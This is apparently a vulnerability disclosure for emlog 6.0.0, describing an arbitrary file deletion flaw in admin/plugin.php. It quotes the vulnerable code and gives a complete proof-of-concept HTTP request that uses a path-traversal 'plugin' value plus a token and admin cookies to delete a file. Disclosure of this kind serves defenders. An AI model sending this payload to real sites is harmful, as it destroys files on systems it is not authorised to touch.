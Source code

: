 emlog has any file deletion vulnerability

vulnerability in admin/plugin.php line 65:

if ($action == 'del') {
    LoginAuth::checkToken();
    $Plugin_Model = new Plugin_Model();
    $Plugin_Model->inactivePlugin($plugin);
    $pludir = preg_replace("/^([^\/]+)\/.*/", "$1", $plugin);
    if (true === emDeleteFile('../content/plugins/' . $pludir)) {
        $CACHE->updateCache('options');
        emDirect("./plugin.php?activate_del=1");
    } else {
        emDirect("./plugin.php?error_a=1");
    }
}

Get any filepath as "plugin" , will delete it.
The token parameter constructed is the value of "EM_TOKENCOOKIE_..." in the cookie.
Login management background and view /admin/plugin.php?action=del
GET plugin=anyfile,like ..\index.php something.
POC:

GET /admin/plugin.php?action=del&plugin=..\..\include\index.php&token=5e050e3e99b8a10851d49f0fd45883d5 HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=889tag4mo48geajtiopkmr3cr7; EM_AUTHCOOKIE_ob0n96t5QV8HTVmXGtXUMPsWTSWNWSLZ=admin%7C%7Cae6c6d2833a616b48d91c52c029cb63e; EM_TOKENCOOKIE_ea9ab1c72af2adc42fabf01c92478f75=5e050e3e99b8a10851d49f0fd45883d5
Upgrade-Insecure-Requests: 1


An issue was discovered in emlog 6.0.0
There is a any file deletion vulnerability that via /admin/plugin.php?action=del&plugin=..\..\include\index.php&token=5e050e3e99b8a10851d49f0fd45883d5
